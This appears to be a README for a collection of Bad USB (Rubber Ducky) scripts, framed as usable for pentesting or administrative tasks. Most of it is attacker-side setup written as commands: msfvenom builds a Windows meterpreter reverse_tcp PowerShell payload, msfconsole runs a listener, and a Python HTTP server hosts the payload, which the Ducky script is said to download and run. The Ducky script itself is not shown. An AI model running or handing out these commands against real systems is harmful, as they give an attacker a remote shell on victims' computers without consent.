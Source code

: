 # Various Ducky scripts for Bad USBs
### Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
#### Ducky script will download and execute powershell script opening meterpreter session<br/>



